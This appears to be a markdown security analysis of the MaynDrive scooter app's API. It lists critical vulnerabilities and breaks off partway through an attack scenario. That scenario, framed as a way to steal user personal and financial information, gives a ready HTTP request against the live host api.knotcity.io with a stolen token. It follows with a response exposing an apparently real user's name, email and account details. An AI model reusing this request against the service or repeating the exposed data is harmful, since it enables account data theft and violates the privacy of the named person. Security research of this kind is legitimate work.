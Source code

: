 # MaynDrive App - Attack Scenarios Analysis

## Executive Summary

Based on the comprehensive security analysis, the MaynDrive app has **mixed security posture** with some critical vulnerabilities that can be exploited. This document outlines all possible attack scenarios and their potential impact.

## Confirmed Vulnerabilities

### 🚨 **CRITICAL VULNERABILITIES**

#### 1. **User Information Disclosure** - HIGH SEVERITY
- **Endpoint**: `/api/application/users`
- **Status**: ✅ **VULNERABLE**
- **Impact**: Complete user profile exposure

#### 2. **JSON Injection** - MEDIUM SEVERITY  
- **Status**: ✅ **PARTIALLY VULNERABLE**
- **Impact**: Extra fields accepted without validation

#### 3. **Session Manipulation** - MEDIUM SEVERITY
- **Status**: ✅ **VULNERABLE**
- **Impact**: Token variations accepted

#### 4. **Parameter Pollution** - LOW SEVERITY
- **Status**: ✅ **VULNERABLE**
- **Impact**: Multiple headers accepted

## Possible Attack Scenarios

### 🎯 **ATTACK SCENARIO 1: Information Disclosure Attack**

#### **Objective**: Steal user personal and financial information

#### **Attack Vector**:
```http
GET /api/application/users HTTP/1.1
Host: api.knotcity.io
Authorization: Bearer [stolen_token]
User-Agent: Knot-mayndrive v1.1.34 (android)
Accept: application/json
```

#### **Expected Result**:
```json
{
  "code": 0,
  "data": {
    "user_id": 103493,
    "email": "dylan188.dg@gmail.com",
    "firstname": "dylan",
    "lastname": "guerin",
    "phone_number": null,
    "bank_card": true,
    "trip_count": 344,
    "notifications": 13,
    "two_factor": false,
    "organization_id": null,
    "organization_name": null
```